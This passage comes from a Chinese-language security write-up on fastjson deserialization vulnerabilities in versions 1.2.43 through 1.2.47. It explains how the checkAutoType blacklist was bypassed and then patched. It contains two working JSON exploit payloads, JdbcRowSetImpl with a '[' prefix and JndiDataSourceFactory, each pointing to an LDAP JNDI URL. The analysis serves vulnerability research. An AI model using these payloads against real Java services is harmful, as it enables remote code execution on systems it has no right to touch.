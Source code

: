 ## 4. fastjson-1.2.43

这个版本主要是修复上一个版本中双写绕过的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.43`
> 描述：上有政策，下有对策。在 `L`、`;` 被进行了限制后，安全研究人员将目光转向了 `[`。

可以看到用来检查的 `checkAutoType` 代码添加了判断，如果类名连续出现了两个 `L` 将会抛出异常，

![](https://su18.org/post-images/1616469807043.png)

这样使用 `L`、`;` 绕过黑名单的思路就被阻挡了，但是在 `loadClass` 的过程中，还针对 `[` 也进行了处理和递归，能不能利用 `[` 进行黑名单的绕过呢？

答案当然是可以的：

```json
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
	{"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

## 5. fastjson-1.2.44

这个版本主要是修复上一个版本中使用 `[` 绕过黑名单防护的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.44`
> 描述：在此版本将 `[` 也进行修复了之后，由字符串处理导致的黑名单绕过也就告一段落了。

可以看到在 `checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

![](https://su18.org/post-images/1616475393707.png)


## 6. fastjson-1.2.45

在此版本爆出了一个黑名单绕过，实际上，黑名单是无穷无尽的，随着 fastjson 的版本更新，一定会有更多的黑名单爆出来，因为隔壁 jackson 都是明文黑名单的，只要隔壁一更新，大家都看到了，就会拿来看 fastjson。

> 影响版本：`1.2.25 <= fastjson <= 1.2.45`
> 描述：黑名单列表需要不断补充。

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}
```

## 7. fastjson-1.2.47

在 fastjson 不断迭代到 1.2.47 时，爆出了最为严重的漏洞，可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用。
